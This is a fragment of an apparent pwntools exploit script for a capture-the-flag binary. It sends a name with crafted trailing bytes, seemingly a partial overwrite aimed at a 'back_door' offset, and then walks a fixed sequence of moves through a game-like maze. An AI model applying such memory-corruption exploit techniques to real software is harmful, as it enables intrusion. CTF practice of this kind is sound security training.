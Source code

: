 ```python
    io.sendafter(b'remaining', b'a' * times)

def right(times = 1):
    io.sendafter(b'remaining', b'd' * times)

    
def exp():
    back_door = 0x1CD0
    # DEBUG()
    io.sendlineafter(b'name', b'aaaaaa\xe7\xec')
    io.sendlineafter(b'Enter', b'')
    io.sendlineafter(b'Enter', b'')
    up(5)
    left(3)
    down(1)
    right(2)
    up(1)
    left(1)

    down(1)
    right(2)
    down(11)
    
    for _ in range(3):
        left(3)
        down(1)
        right(3)
        up(1)
    

    left(3)
    down(2)

    right(2)

    for _ in range(3):
        up(1)
        right(1)
        down(2)
        left(1)
        up(1)

    left(2)
    up(1)

    for _ in range(3):
        right(3)
        up(1)
        left(3)
        down(1)

    right(3)
    up(2)

    up(12)
    left(1)
    down(1)

    # DEBUG('b * $rebase(0x1E77)')
    right(1)

    pause()

```